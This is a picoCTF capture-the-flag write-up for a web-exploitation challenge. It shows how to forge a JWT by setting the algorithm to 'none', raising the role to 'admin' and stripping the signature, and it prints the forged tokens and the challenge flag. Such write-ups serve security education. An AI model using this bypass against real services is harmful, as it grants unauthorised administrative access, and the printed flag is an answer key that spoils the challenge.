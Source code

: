 # Overview 
Category: [Web Exploitation]()

AUTHOR: GEOFFREY NJOGU

# Description
Most web application developers use third party components without testing their security. Some of the past affected companies are:
Equifax (a US credit bureau organization) - breach due to unpatched Apache Struts web framework CVE-2017-5638
Mossack Fonesca (Panama Papers law firm) breach - unpatched version of Drupal CMS used
VerticalScope (internet media company) - outdated version of vBulletin forum software used
Can you identify the components and exploit the vulnerable one?

# Solution
- When accessing the website with a demo account, we receive the token: 
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNzIyMDkzMzM4NDY2LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMjcuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNzIyMDkzMzM4fQ.Ws43mo6X7Pp_RzBKBS8vqcRMLxapWPt2KGcAFl5z9Vw
```
- To find out what we have we can use the [JWT debugger website](https://token.dev/). By pasting in the above token value we get:

<img src="https://i.imgur.com/QfgVri7.png">

- This is now a direct walkthrough of what we need to do. First switch off security, by setting "alg" to "none", then set the role to "admin", and then omit the signature at the end but retain the trailing period.
  [Guide](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/10-Testing_JSON_Web_Tokens)
- Results: 
<img src="https://i.imgur.com/QKXWGUb.png">

- This yields the base64 JWT:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNzIyMDkzMzM4NDY2LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMjcuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTcyMjA5MzMzOH0
```
- The JWT should always have two (2) . separators.So, we just need to add a "." end of the sentence so it's still valid:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNzIyMDkzMzM4NDY2LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMjcuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTcyMjA5MzMzOH0.
```
- Now change tokens and refresh again, we get the flag 
<img src="https://i.imgur.com/DiJnHsN.png">

> Flag :**picoCTF{succ3ss_@u7h3nt1c@710n_72bf8bd5}**